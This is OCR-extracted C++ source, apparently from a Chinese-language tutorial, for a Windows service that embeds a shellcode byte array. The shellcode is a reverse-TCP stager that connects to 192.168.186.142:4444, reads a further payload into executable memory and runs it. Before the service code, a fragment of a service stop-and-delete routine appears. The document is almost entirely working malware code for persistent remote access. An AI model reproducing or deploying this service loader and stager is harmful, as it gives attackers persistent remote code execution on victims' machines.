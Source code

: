 ```text
		printf("Delete Error!\n");
	}
	printf("Stop and Delete OK.\n");

	system("pause");
}

```

服务:

```text
// ServiceTest.cpp : 定义控制台应用程序的入口点。
//
// ServiceTest.cpp : 定义控制台应用程序的入口点。
//

#include <stdio.h>
#include <tchar.h>
#include <Windows.h>
#include <Shlwapi.h>
#pragma comment(lib, "Shlwapi.lib")
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\xba\x8e"
"\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0"
"\xb5\xa2\x56\xff\xd5\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8"
"\x5f\xff\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00"
"\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
"\x02\xd9\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3";
// 服务入口函数以及处理回调函数
void __stdcall ServiceMain(DWORD dwArgc, char* lpszArgv);
void __stdcall ServiceCtrlHandle(DWORD dwOperateCode);
BOOL TellSCM(DWORD dwState, DWORD dwExitCode, DWORD dwProgress);
void DoTask();

// 全局变量
char g_szServiceName[MAX_PATH] = "ServiceTest.exe";    // 服务名称 
SERVICE_STATUS_HANDLE g_ServiceStatusHandle = { 0 };
BOOL bOnce = FALSE;

int _tmain(int argc, _TCHAR* argv[])
{
	// 注册服务入口函数
	SERVICE_TABLE_ENTRYA stDispatchTable[] = { {g_szServiceName, (LPSERVICE_MAIN_FUNCTIONA)ServiceMain }, { NULL, NULL } };
	StartServiceCtrlDispatcherA(stDispatchTable);

	return 0;
}


```